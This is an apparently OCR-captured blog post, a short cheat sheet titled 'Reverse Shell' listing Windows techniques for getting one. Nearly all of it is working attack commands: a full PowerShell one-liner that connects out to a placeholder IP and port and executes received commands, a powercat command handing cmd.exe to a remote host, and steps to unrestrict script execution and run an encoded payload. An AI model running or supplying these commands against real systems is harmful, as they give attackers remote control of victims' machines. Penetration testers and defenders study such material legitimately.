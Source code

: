 ```yaml
---
layout: post
title: Reverse Shell
tags: [Linux, Windows,]
description: Ways to get a reverse shell
---
```


## Windows
### PowerShell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

### Powercat
```powershell
powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Encripted payload
Enable script execution
```
> Set-ExecutionPolicy Unrestricted
>  powercat -c <IP> -p <PORT> -e cmd.exe -ge > reverseshell.ps1
> powershell -E AaQBtAEUAbgBkACgAIgBgAHIAI[...]
```


